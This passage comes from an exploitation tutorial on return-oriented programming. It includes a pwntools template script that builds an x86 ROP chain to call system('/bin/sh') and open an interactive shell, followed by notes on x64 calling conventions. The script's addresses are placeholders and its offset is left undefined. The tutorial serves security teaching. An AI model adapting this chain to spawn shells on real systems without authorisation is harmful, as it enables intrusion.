 Using **pwntools**, we prepare the stack for the ROP chain execution as follows aiming to execute `system('/bin/sh')`, note how the chain starts with:

1. A `ret` instruction for alignment purposes (optional)
2. Address of `system` function (supposing ASLR disabled and known libc, more info in [**Ret2lib**](ret2lib/))
3. Placeholder for the return address from `system()`
4. `"/bin/sh"` string address (parameter for system function)

```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadc0de

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
    ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
    system_addr,   # Address of system(). Execution will continue here after the ret gadget
    0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
    bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```

## ROP Chain in x64 Example

### **x64 (64-bit) Calling conventions**

- Uses the **System V AMD64 ABI** calling convention on Unix-like systems, where the **first six integer or pointer arguments are passed in the registers `RDI`, `RSI`, `RDX`, `RCX`, `R8`, and `R9`**. Additional arguments are passed on the stack. The return value is placed in `RAX`.
- **Windows x64** calling convention uses `RCX`, `RDX`, `R8`, and `R9` for the first four integer or pointer arguments, with additional arguments passed on the stack. The return value is placed in `RAX`.
- **Registers**: 64-bit registers include `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, and `R8` to `R15`.
